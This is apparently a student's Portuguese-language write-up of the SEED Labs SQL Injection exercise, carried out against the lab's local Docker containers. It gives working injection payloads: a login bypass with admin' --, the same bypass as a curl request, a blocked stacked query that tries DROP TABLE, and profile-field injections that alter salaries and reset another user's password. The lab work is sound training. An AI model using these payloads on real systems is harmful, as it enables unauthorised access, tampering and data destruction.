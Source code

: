 # SEED Labs - SQL Injection

## Setup

Inicialmente adicionamos uma nova entrada nos hosts conhecidos pela máquina virtual, executando de seguida os containers fornecidos no lab e abrindo uma shell com acesso direto à base de dados. Utilizamos os seguintes comandos.

`sudo nano etc/hosts`
Em seguida colocamos no final do ficheiro:
`10.9.0.5 www.seed-server.com`

`dcbuild`:docker-compose build

`dcup`:docker-compose up

## Task 1

Começamos por correr o comando  `docker exec -it mysql-10.9.0.6 bash`, para abrir uma shell no container do MySQL. Em seguida usamos `mysql -u root -pdees` para login na base de dados. Para mostrar todas as tabelas dentro da mesma, usamos os seguintes comandos

```sql
use sqllab_users;
show tables;
```

Finalmente para obtermos os dados da Alice corremos `SELECT * FROM credential WHERE name='Alice'`

Resultando em:
![](docs/images/task1.png)

## Task 2

### Task 2.1

Dado o trecho de código no ficheiro `unsafe_home.php`, a vulnerabilidade reside no facto de que as variáveis `input_uname` e `hashed_pwd` são inseridas diretamente na query sem a devida higienização. 

Uma vez que sabemos que o username da conta do administrador é "admin", conseguimos explorar a vulnerabilidade de SQL Injection introduzindo `admin' --` no input do username:

    username: admin' --
    password: (qualquer coisa ou deixar em branco)

O `--` efetivamente transforma o resto da query num comentário, ignorando a verificação da palavra-passe.

Resultando em:
![](docs/image/task2.1.png)

### Task 2.2

Para realizar o mesmo ataque de SQL Injection mas na CLI usamos o comando:

```bash
curl 'http://www.seed-server.com/unsafe_home.php?username=admin%27%20--%20&Password='

```

### Task 2.3

Para adicionar uma nova instrução normalmente usariamos um ponto e vírgula ;. No entanto, isto é prevenido como medida de segurança da extensão de PHP _mysqli_, para evitar a execução de múltiplas instruções numa só consulta.

Exemplo de uma tentativa que foi bloqueada por esta contramedida:

    Utilizador: admin'; DROP TABLE credential; --
    Palavra-passe: (qualquer coisa ou deixar em branco)

![](docs/images/task2.3.png)

### Task 3

### Tarefa 3.1
Na página de edição de perfil, inserimos uma injeção SQL no campo `nickname`(mas podia ser qualquer um) usando o comando `', salary=12345678 WHERE name='Alice'; #`.

### Tarefa 3.2
Decidindo punir o nosso chefe utilizámos a página de edição de perfil para reduzir o salário dele, mas desta vez com o comando `', salary = '860' WHERE name='Boby'; #`.

### Tarefa 3.3
Para alterar a password do Boby usámos comando `', password=sha1('construtor') WHERE name='Boby'; #`.

Resultado:
![](docs/images/task3.png)





